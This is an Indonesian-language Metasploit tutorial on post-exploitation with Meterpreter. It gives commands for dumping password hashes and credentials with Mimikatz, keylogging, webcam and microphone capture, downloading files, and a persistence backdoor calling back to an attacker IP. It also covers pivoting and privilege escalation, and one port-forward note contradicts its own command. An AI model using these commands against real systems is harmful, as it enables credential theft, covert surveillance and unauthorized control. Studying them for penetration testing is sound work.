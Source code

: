 # Post-Exploitation di Metasploit

## A. Apa Itu Post-Exploitation?

[Post-Exploitation](https://en.wikipedia.org/wiki/After_Exploitation) adalah tahap lanjutan setelah berhasil mendapatkan akses ke sistem target. Di Metasploit, khususnya dengan Meterpreter session, kamu bisa melakukan berbagai aktivitas lanjutan untuk `mengumpulkan informasi`, `memperluas akses`, hingga `mengambil alih sistem` secara penuh.

## B. Konsep Dasar Meterpreter

[Meterpreter](https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/) adalah payload berbasis memory injection yang powerful, interaktif, dan tidak menulis file ke disk (stealthy). Setelah exploit berhasil, Meterpreter menyediakan antarmuka CLI untuk post-exploitation.

## C. Perintah Dasar Meterpreter

| Perintah	| Fungsi |
|:--:|:--:|
| `sysinfo`	| Melihat informasi sistem target |
| `getuid` | Menampilkan User ID (UID) |
| `ps` | Menampilkan proses yang sedang berjalan |
| `shell`	| Membuka command shell dari mesin target |
| `getprivs` | Menampilkan privilege yang dimiliki |
| `getsystem`	| Mencoba escalate privilege jadi SYSTEM |
| `screenshot` | Mengambil tangkapan layar target |

## D. Dump Password Hash

Langkah-langkah:

### 1. Jalankan:

```
meterpreter > load kiwi
```

### 2. Dump Hash SAM:

```
meterpreter > hashdump
```

### 3. Atau Menggunakan Mimikatz:

```
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

## E. Keylogger

### 1. Mulai keylogger:

```
meterpreter > keyscan_start
```

### 2. Lihast Hasil:

```
meterpreter > keyscan_dump
```

### 3. Hentikan:

```
meterpreter > keyscan_stop
```

## F. Webcam (Ambil Gambar)

### 1. Cek webcam:

```
meterpreter > webcam_list
```

### 2. Ambil gambar:

```
meterpreter > webcam_snap
```

### 3. Atau rekam:

```
meterpreter > record_mic
```

## F. File & Data Collection

| Perintah	| Fungsi |
|:--:|:--:|
| `ls`, `cd`, `pwd` | Navigasi file |
| `download <file>`	| Unduh file dari target |
| `upload <file>`	| Upload file ke target |
| `search -f *.docx`	| Cari file tertentu |
| `cat <file>`	| Lihat isi file|

## G. Persistence (Backdoor)

Contoh membuat persistence di Windows:

```
meterpreter > run persistence -U -i 5 -p 4444 -r 192.168.1.10
```

**Keterangan:**
- `-i` : Interval `5 detik`.
- `-p` : Port listener: `4444`.
- `-r` : IP attacker: `192.168.1.10`.

## Pivoting dan Port Forwarding

Jika target berada di jaringan internal, kamu bisa pivot ke sistem lain:

```
meterpreter > run autoroute -s 192.168.10.0/24
```

**Keterangan:**
- `-s` : (subnet) jaringan internal target.

Gunakan port forwarding untuk akses service internal:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

**Keterangan:**
- `-l` : Port listener: `8888`.
- `-p` : Port tujuan di mesin target: `80`.
- `-r` : IP target di jaringan internal korban yang akan diakses: `192.168.10.10`. 

## I. Privilege Escalation

Coba naikkan hak akses jadi SYSTEM:

```
meterpreter > getsystem
```

Atau gunakan exploit lokal seperti:

```
msf6 > use exploit/windows/local/bypassuac
```

## J. Kesimpulan

Post-exploitation adalah fase paling menentukan dalam operasi penetrasi. Dengan Meterpreter, kamu bisa:
- Mengumpulkan informasi sensitif.
- Menanamkan backdoor.
- Mengendalikan perangkat target secara penuh.

> Pastikan semua aksi kamu terukur, tercatat, dan bertanggung jawab.
